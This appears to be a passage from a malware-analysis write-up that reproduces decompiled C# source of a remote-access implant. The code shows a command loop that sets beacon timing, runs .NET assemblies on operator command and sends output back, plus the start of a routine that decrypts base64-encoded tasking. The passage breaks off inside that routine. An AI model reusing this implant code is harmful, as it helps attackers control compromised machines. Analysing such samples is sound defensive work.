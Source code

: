 ```cs
								stringBuilder.AppendLine(string.Format("[X] Invalid time \"{0}\"", text3));
							}
							Program.Exec("Beacon set", Program.taskId, Key, null);
						}
						else
						{
							string text5 = Program.rAsm(string.Format("run-exe Core.Program Core {0}", cmd));
						}
						stringBuilder.AppendLine(stringWriter.ToString());
						StringBuilder stringBuilder2 = stringWriter.GetStringBuilder();
						stringBuilder2.Remove(0, stringBuilder2.Length);
						if (stringBuilder.Length > 2)
						{
							Program.Exec(stringBuilder.ToString(), Program.taskId, Key, null);
						}
						stringBuilder.Length = 0;
					}
				}
			}
			catch (NullReferenceException ex)
			{
			}
			catch (WebException ex2)
			{
			}
			catch (Exception ex3)
			{
				Program.Exec(string.Format("Error: {0} {1}", stringBuilder.ToString(), ex3), "Error", Key, null);
			}
			finally
			{
				stringBuilder.AppendLine(stringWriter.ToString());
				StringBuilder stringBuilder3 = stringWriter.GetStringBuilder();
				stringBuilder3.Remove(0, stringBuilder3.Length);
				if (stringBuilder.Length > 2)
				{
					Program.Exec(stringBuilder.ToString(), "99999", Key, null);
				}
				stringBuilder.Length = 0;
			}
		}
	}
}
```

**`Decryption()`**
```cs
private static string Decryption(string key, string enc)
{
	byte[] array = Convert.FromBase64String(enc);
	byte[] array2 = new byte[16];
	Array.Copy(array, array2, 16);
	string text;
	try
	{
		SymmetricAlgorithm symmetricAlgorithm = Program.CreateCam(key, Convert.ToBase64String(array2), true);
		byte[] array3 = symmetricAlgorithm.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
		text = Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(array3).Trim(new char[1])));
```